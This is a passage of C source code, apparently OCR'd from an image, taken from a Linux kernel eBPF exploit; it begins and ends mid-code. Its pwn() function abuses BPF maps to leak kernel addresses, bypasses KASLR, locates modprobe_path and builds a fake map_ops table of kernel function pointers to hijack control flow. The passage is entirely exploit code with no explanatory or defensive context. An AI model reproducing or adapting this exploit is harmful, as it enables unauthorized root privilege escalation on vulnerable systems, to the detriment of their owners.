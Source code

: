 ```
        __exit(strerror(errno));
    }
}

void pwn(){
    printf("pwning...n");
    uint32_t key = 0x0;
    char *ctrlbuf = malloc(0x100);
    char *expbuf  = malloc(0x3000);

    uint64_t *ctrlbuf64 = (uint64_t *)ctrlbuf;
    uint64_t *expbuf64  = (uint64_t *)expbuf;

    memset(ctrlbuf,'A',0x100);
    for(int i=0;i&lt;0x2000/8;i++){
        expbuf64[i] = i+1;
    }

    ctrlbuf64[0]=0x2;
    ctrlbuf64[1]=0x0;
    bpf_update_elem(ctrlmapfd,&amp;key,ctrlbuf,0);
    bpf_update_elem(expmapfd,&amp;key,expbuf,0);
    writemsg();
    // leak
    memset(ctrlbuf,0,0x100);
    bpf_lookup_elem(ctrlmapfd,&amp;key,ctrlbuf);
    x64dump(ctrlbuf,8);
    bpf_lookup_elem(expmapfd,&amp;key,expbuf);
    x64dump(expbuf,8);
    uint64_t map_leak = ctrlbuf64[2];
    uint64_t elem_leak = ctrlbuf64[3]-0xc0+0x110;
    uint64_t kaslr = map_leak - 0xffffffff82016340;
    uint64_t modprobe_path = 0xffffffff82446d80 + kaslr;
    loglx("map_leak",map_leak);
    loglx("elem_leak",elem_leak);
    loglx("kaslr",kaslr);
    loglx("modprobe",modprobe_path);

    uint64_t fake_map_ops[]={
        kaslr +0xffffffff8116ec70,
        kaslr +0xffffffff8116fa00,
        0x0,
        kaslr +0xffffffff8116f2d0,
        kaslr +0xffffffff8116ed50,//get net key 5
        0x0,
        0x0,
        kaslr +0xffffffff81159b30,
        0x0,
        kaslr +0xffffffff81159930,
        0x0,
        kaslr +0xffffffff8116edd0,
        kaslr +0xffffffff8116f1c0,
        kaslr +0xffffffff8116ed80,
        kaslr +0xffffffff8116ed50,//map_push_elem 15
        0x0,
        0x0,
        0x0,
        0x0,
        kaslr +0xffffffff8116f050,
        0x0,
        kaslr +0xffffffff8116ee80,
        kaslr +0xffffffff8116f870,
        0x0,
```